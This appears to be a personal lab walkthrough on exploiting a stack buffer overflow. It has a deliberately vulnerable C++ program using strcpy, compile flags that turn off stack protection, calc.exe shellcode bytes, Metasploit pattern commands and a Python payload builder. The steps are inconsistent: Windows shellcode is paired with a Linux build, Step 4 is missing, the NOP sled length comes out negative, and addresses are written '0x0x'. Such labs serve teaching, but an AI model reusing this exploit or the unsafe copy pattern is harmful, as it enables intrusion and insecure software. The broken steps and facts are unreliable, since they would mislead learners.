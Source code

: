 ```c
#include <iostream>
#include <cstring>

void vulnerable_function(char *input) {
    char buffer[10];
    strcpy(buffer, input); // Vulnerable function: no bounds checking
    std::cout << "Buffer: " << buffer << std::endl;
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        std::cerr << "Usage: " << argv[0] << " <input>" << std::endl;
        return 1;
    }

    vulnerable_function(argv[1]);
    return 0;
}

```



1. **Vulnerable Function:**
    
    - `vulnerable_function` takes a `char` pointer `input` as input.
    - It declares a fixed-size character array `buffer` of size 10 (including the null terminator).
    - It uses `strcpy` to copy the contents of `input` into `buffer`.
2. **Problem:**
    
    - `strcpy` doesn't perform any bounds checking.
    - If the size of `input` exceeds the size of `buffer` (greater than 9 characters), `strcpy` will continue copying characters until the null terminator is encountered in `input`.
    - This can overwrite data beyond the intended boundaries of `buffer`.

**Potential Consequences:**

- Overwriting critical data on the stack can lead to program crashes or unexpected behavior.
- In a malicious scenario, an attacker could craft an `input` containing malicious code (e.g., shellcode to execute `calc.exe`) and overwrite the function's return address on the stack. When the function returns, control flow would be diverted to the attacker's injected code, potentially allowing unauthorized actions.

**Safe Programming Practices:**

- Use functions with built-in bounds checking like `strncpy` (copies a limited number of characters) or safer alternatives like `std::string` in C++.
- Validate the size of user input before processing it.


---

### Lab Walkthrough

#### Step 1: Understanding the Vulnerability

The vulnerable function `vulnerable_function` uses `strcpy` to copy user input into a fixed-size buffer (`buffer[10]`). Because `strcpy` does not check the length of the input, if the input exceeds the size of the buffer, it will overwrite adjacent memory, including the return address of the function.

#### Step 2: Compiling the Program

First, compile the program without stack protection to make it easier to exploit:

```bash
g++ -fno-stack-protector -z execstack -o vuln_program vuln_program.cpp
```

#### Step 3: Creating the Exploit

To exploit this vulnerability, we need to overwrite the return address of `vulnerable_function` with the address of our shellcode. The shellcode will be crafted to open `calc.exe` on a Windows system.

##### Shellcode to Open `calc.exe`

Here’s a shellcode snippet that opens `calc.exe`:

```bash
\x31\xc0\x50\x68\x63\x61\x6c\x63\x54\x5f\xb8\xc7\x93\xc2\x77\xff\xd0
```

Use the generated pattern as input to the program and observe the crash using a debugger (like GDB) to find the exact offset:

```bash
./vuln_program $(msf-pattern_create -l 100)
```

#### Step 5: Crafting the Exploit Payload

Assuming the offset to the return address is 14 bytes, the exploit payload will consist of:

1. NOP sled (to slide to the shellcode)
2. Shellcode to open `calc.exe`
3. Overwritten return address pointing to the NOP sled or shellcode

##### Constructing the Payload in Python

```python
import struct

# Offset found from debugging
offset = 14

# Shellcode to open calc.exe
shellcode = b"\x31\xc0\x50\x68\x63\x61\x6c\x63\x54\x5f\xb8\xc7\x93\xc2\x77\xff\xd0"

# NOP sled
nop_sled = b"\x90" * (offset - len(shellcode))

# Address to jump to (example address, should be adjusted based on actual environment)
# You may need to find a suitable address using a debugger
return_address = struct.pack("<I", 0xdeadbeef)

# Final payload
payload = nop_sled + shellcode + return_address

# Write payload to a file
with open("exploit_payload", "wb") as f:
    f.write(payload)
```

#### Step 6: Running the Exploit

Run the vulnerable program with the crafted payload:

```bash
./vuln_program $(cat exploit_payload)
```

This should trigger the buffer overflow and open `calc.exe`.

### Note on Address

The `return_address` needs to point to the location of the NOP sled or the shellcode. This can be found using a debugger like GDB or Immunity Debugger on Windows.


---

## Optional

### Step-by-Step Guide to Finding the Offset

#### Run the Vulnerable Program with the Pattern

Execute the vulnerable program with the generated pattern as input. This will cause the program to crash, and the pattern will overwrite the return address on the stack.

```bash
./vuln_program $(msf-pattern_create -l 100)
```

#### Observe the Crash with a Debugger

```bash
gdb ./vuln_program
```

Within GDB, run the program with the pattern:

```bash
run $(msf-pattern_create -l 100)
```

Note the address where the crash occurred (e.g., `0x0x00005555555551b7`).

![[Pasted image 20240711024604.png]]

#### Find the Offset

Use `pattern_offset` to determine the exact offset of the pattern that overwrote the return address.

```bash
msf-pattern_offset -q 0x0x00005555555551b7
```
